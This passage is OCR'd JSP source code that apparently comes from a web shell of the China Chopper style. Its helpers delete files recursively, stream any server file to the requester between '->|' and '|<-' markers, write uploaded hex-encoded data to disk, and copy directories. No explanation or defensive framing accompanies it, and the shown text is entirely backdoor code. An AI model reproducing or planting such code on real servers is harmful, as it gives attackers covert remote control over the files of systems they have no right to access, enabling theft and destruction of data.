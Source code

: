```jsp
        if (f.isDirectory()) {
            File x[] = f.listFiles();
            for (int k = 0; k < x.length; k++) {
                if (!x[k].delete()) {
                    EE(x[k].getPath());
                }
            }
        }
        f.delete();
    }
 
    void FF(String s, HttpServletResponse r) throws Exception {
        int n;
        byte[] b = new byte[512];
        r.reset();
        ServletOutputStream os = r.getOutputStream();
        BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));
        os.write(("->" + "|").getBytes(), 0, 3);
        while ((n = is.read(b, 0, 512)) != -1) {
            os.write(b, 0, n);
        }
        os.write(("|" + "<-").getBytes(), 0, 3);
        os.close();
        is.close();
    }
 
    void GG(String s, String d) throws Exception {
        String h = "0123456789ABCDEF";
        int n;
        File f = new File(s);
        f.createNewFile();
        FileOutputStream os = new FileOutputStream(f);
        for (int i = 0; i < d.length(); i += 2) {
            os
                    .write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d
                            .charAt(i + 1))));
        }
        os.close();
    }
 
    void HH(String s, String d) throws Exception {
        File sf = new File(s), df = new File(d);
        if (sf.isDirectory()) {
            if (!df.exists()) {
                df.mkdir();
            }
            File z[] = sf.listFiles();
            for (int j = 0; j < z.length; j++) {
                HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());
            }
        } else {
            FileInputStream is = new FileInputStream(sf);
            FileOutputStream os = new FileOutputStream(df);
            int n;
            byte[] b = new byte[512];
            while ((n = is.read(b, 0, 512)) != -1) {
                os.write(b, 0, n);
            }
            is.close();
            os.close();
        }
    }
 
```
